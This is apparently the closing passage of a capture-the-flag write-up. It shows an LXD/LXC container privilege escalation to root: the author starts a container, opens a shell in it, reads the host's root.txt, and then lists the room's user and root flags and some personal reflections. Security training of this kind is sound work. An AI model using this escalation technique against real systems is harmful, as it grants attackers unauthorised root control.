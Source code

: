   john@exploitable:~$ lxc start backdoor
  john@exploitable:~$ lxc exec backdoor /bin/sh
  ~ # whoami
  root
  ~ # cd /mnt/root/root
  /mnt/root/root # cat root.txt
  2e337b8c9f3aff0c2b3e8d4e6a7c88fc
  /mnt/root/root # 
  ```

- This is my first time doing this exploitation and it was so cool and so fun, loved it! 

---

## 🏁 Flags

- **User Flag**: `a5c2ff8b9c2e3d4fe9d4ff2f1a5a6e7e`
- **Root Flag**: `2e337b8c9f3aff0c2b3e8d4e6a7c88fc`

---

## 💬 Notes & Reflections

- What was challenging in this room for me?
  `Escalating privileges, my first time exploiting LXD/LXC`

- What did I learn?
  `New awesome way of privilege escalation.`

- I would recommend this room or any type of CTF challenge to every Cyber Security enthusiast since it will sharpen your skills better than any book/tutorial/course or walkthrough rooms on many different platforms!

- Thank you for reading! Enjoy, Have Fun and Happy Hacking! 🤟

---
